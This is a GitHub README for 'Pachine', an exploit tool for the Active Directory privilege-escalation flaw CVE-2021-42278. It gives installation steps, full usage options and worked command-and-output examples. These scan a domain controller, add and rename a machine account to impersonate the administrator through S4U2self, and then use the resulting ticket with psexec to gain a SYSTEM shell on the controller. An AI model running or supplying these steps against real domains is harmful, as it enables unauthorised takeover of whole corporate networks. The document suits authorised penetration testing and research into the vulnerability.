

# Pachine

Python implementation for CVE-2021-42278 (Active Directory Privilege Escalation).

## Installation

```bash
$ pip3 install impacket
```

## Usage

```
Impacket v0.9.23 - Copyright 2021 SecureAuth Corporation

usage: pachine.py [-h] [-scan] [-spn SPN] [-impersonate IMPERSONATE] [-domain-netbios NETBIOSNAME] [-computer-name NEW-COMPUTER-NAME$] [-computer-pass password] [-debug] [-method {SAMR,LDAPS}] [-port {139,445,636}] [-baseDN DC=test,DC=local]
                  [-computer-group CN=Computers,DC=test,DC=local] [-hashes LMHASH:NTHASH] [-no-pass] [-k] [-aesKey hex key] -dc-host hostname [-dc-ip ip]
                  [domain/]username[:password]

Pachine - CVE-2021-42278 Scanner & Exploit

positional arguments:
  [domain/]username[:password]
                        Account used to authenticate to DC.

optional arguments:
  -h, --help            show this help message and exit
  -scan                 Scan the DC
  -spn SPN              SPN (service/server) of the target service the service ticket will be generated for
  -impersonate IMPERSONATE
                        target username that will be impersonated (through S4U2Self) for quering the ST. Keep in mind this will only work if the identity provided in this scripts is allowed for delegation to the SPN specified
  -domain-netbios NETBIOSNAME
                        Domain NetBIOS name. Required if the DC has multiple domains.
  -computer-name NEW-COMPUTER-NAME$
                        Name of new computer. If omitted, a random DESKTOP-[A-Z0-9]{8} will be used.
  -computer-pass password
                        Password to set to computer. If omitted, a random [A-Za-z0-9]{32} will be used.
  -debug                Turn DEBUG output ON
  -method {SAMR,LDAPS}  Method of adding the computer. SAMR works over SMB. LDAPS has some certificate requirements and isn't always available.
  -port {139,445,636}   Destination port to connect to. SAMR defaults to 445, LDAPS to 636.

LDAP:
  -baseDN DC=test,DC=local
                        Set baseDN for LDAP. If ommited, the domain part (FQDN) specified in the account parameter will be used.
  -computer-group CN=Computers,DC=test,DC=local
                        Group to which the account will be added. If omitted, CN=Computers will be used,

authentication:
  -hashes LMHASH:NTHASH
                        NTLM hashes, format is LMHASH:NTHASH
  -no-pass              don't ask for password (useful for -k)
  -k                    Use Kerberos authentication. Grabs credentials from ccache file (KRB5CCNAME) based on account parameters. If valid credentials cannot be found, it will use the ones specified in the command line
  -aesKey hex key       AES key to use for Kerberos Authentication (128 or 256 bits)
  -dc-host hostname     FQDN of the domain controller to target.
  -dc-ip ip             IP of the domain controller to use. Useful if you can't translate the FQDN.specified in the account parameter will be used
                                                                                                                                                                                                                                                              
```

### Demonstration



### Examples

#### Scanning

To scan a domain controller, use the `-scan` option. Supply the hostname of the DC with the `-dc-host` option.
If you cannot resolve the hostname, you can also supply the IP of the DC with `-dc-ip`. At least `-dc-host` must be supplied.

```bash
$ python3 pachine.py -dc-host dc.predator.local -scan 'predator.local/john:Passw0rd!'
Impacket v0.9.23 - Copyright 2021 SecureAuth Corporation

[*] Domain controller dc.predator.local is most likely vulnerable
```

#### Exploitation

```bash
$ python3 pachine.py -dc-host dc.predator.local -spn cifs/dc.predator.local -impersonate administrator 'predator.local/john:Passw0rd!'
Impacket v0.9.23 - Copyright 2021 SecureAuth Corporation

[*] Added machine account dc with password qwx1TwIGRNcwsBptfDfyw9wubnVBSVij.
[*] Got TGT for dc@PREDATOR.LOCAL
[*] Changed machine account name from dc to DESKTOP-XS5FCF1Y$
[*] Requesting S4U2self
[*] Got TGS for administrator@predator.local for dc@PREDATOR.LOCAL
[*] Changing sname from dc@PREDATOR.LOCAL to cifs/dc.predator.local@PREDATOR.LOCAL
[*] Changed machine account name from DESKTOP-XS5FCF1Y$ to dc
[*] Saving ticket in administrator@predator.local.ccache
```

##### Using the TGS

```bash
$ # Set and verify the CCACHE
$ export KRB5CCNAME=$PWD/administrator@predator.local.ccache
$ klist
Ticket cache: FILE:/opt/Pachine/administrator@predator.local.ccache
Default principal: administrator@predator.local

Valid starting       Expires              Service principal
12/13/2021 23:45:19  12/14/2021 09:45:19  cifs/dc.predator.local@PREDATOR.LOCAL
	renew until 12/14/2021 23:45:19
$ # Use Impacket's Psexec. This will work for 'cifs'
$ impacket-psexec -k -no-pass 'predator.local/administrator@dc.predator.local'
Impacket v0.9.23 - Copyright 2021 SecureAuth Corporation

[*] Requesting shares on dc.predator.local.....
[*] Found writable share ADMIN$
[*] Uploading file GPZNUSse.exe
[*] Opening SVCManager on dc.predator.local.....
[*] Creating service FBle on dc.predator.local.....
[*] Starting service FBle.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.20348.288]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```

## Details
Pachine (PAC + Machine) is a Python exploit implementation for [CVE-2021-42278](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-42278). I highly recommend reading Charlie Clark's ([@exploitph](https://twitter.com/exploitph))  great [blog post](https://exploit.ph/cve-2021-42287-cve-2021-42278-weaponisation.html) for technical details on CVE-2021-42278.

## Authors
- [@ly4k](https://github.com/ly4k)

## Credits
- [@cube0x0](https://github.com/cube0x0)'s C# [implementation](https://github.com/cube0x0/noPac)
- [Charlie Clark @exploitph](https://twitter.com/exploitph)
- [Impacket](https://github.com/SecureAuthCorp/impacket)

## References
- [exploit.ph: CVE-2021-42287/CVE-2021-42278 Weaponisation](https://exploit.ph/cve-2021-42287-cve-2021-42278-weaponisation.html)
